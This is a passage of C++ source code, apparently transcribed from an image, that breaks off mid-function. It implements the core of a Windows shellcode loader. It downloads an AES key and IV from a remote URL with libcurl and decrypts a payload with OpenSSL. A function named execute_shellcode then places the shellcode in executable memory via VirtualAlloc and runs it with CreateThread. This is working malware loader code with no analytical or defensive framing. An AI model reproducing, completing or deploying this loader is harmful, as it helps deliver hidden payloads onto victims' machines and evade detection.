 ```cpp
    CURL* curl;
    CURLcode res;
    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    if (curl) {
        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, WriteCallback);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, &output);
        res = curl_easy_perform(curl);
        if (res != CURLE_OK) {
            std::cerr << "Download failed: " << curl_easy_strerror(res) << std::endl;
        }
        curl_easy_cleanup(curl);
    }
    curl_global_cleanup();
}

void load_key_iv(const std::string& url) {
    std::string key_file_data;
    download_file(url, key_file_data);
    
    std::istringstream key_iv_stream(key_file_data);
    std::getline(key_iv_stream, aes_key);  // First line is AES key
    std::getline(key_iv_stream, aes_iv);   // Second line is IV
}

// AES Decrypt using OpenSSL
std::string aes_decrypt(const std::string& encrypted_data, const std::string& key, const std::string& iv) {
    EVP_CIPHER_CTX* ctx = EVP_CIPHER_CTX_new();
    unsigned char outbuf[1024];
    int outlen, tmplen;
    std::string decrypted;

    // Init AES
    EVP_DecryptInit_ex(ctx, EVP_aes_256_cbc(), NULL, (unsigned char*)key.c_str(), (unsigned char*)iv.c_str());

    // Decrypt the data
    if (!EVP_DecryptUpdate(ctx, outbuf, &outlen, (unsigned char*)encrypted_data.c_str(), encrypted_data.size())) {
        EVP_CIPHER_CTX_free(ctx);
        return {};
    }
    decrypted.append((char*)outbuf, outlen);

    // Finalize
    if (!EVP_DecryptFinal_ex(ctx, outbuf, &tmplen)) {
        EVP_CIPHER_CTX_free(ctx);
        return {};
    }
    decrypted.append((char*)outbuf, tmplen);
    EVP_CIPHER_CTX_free(ctx);

    return decrypted;
}

void execute_shellcode(unsigned char* shellcode, size_t len) {
    void* exec_mem = VirtualAlloc(0, len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(exec_mem, shellcode, len);

    HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    WaitForSingleObject(th, INFINITE);
```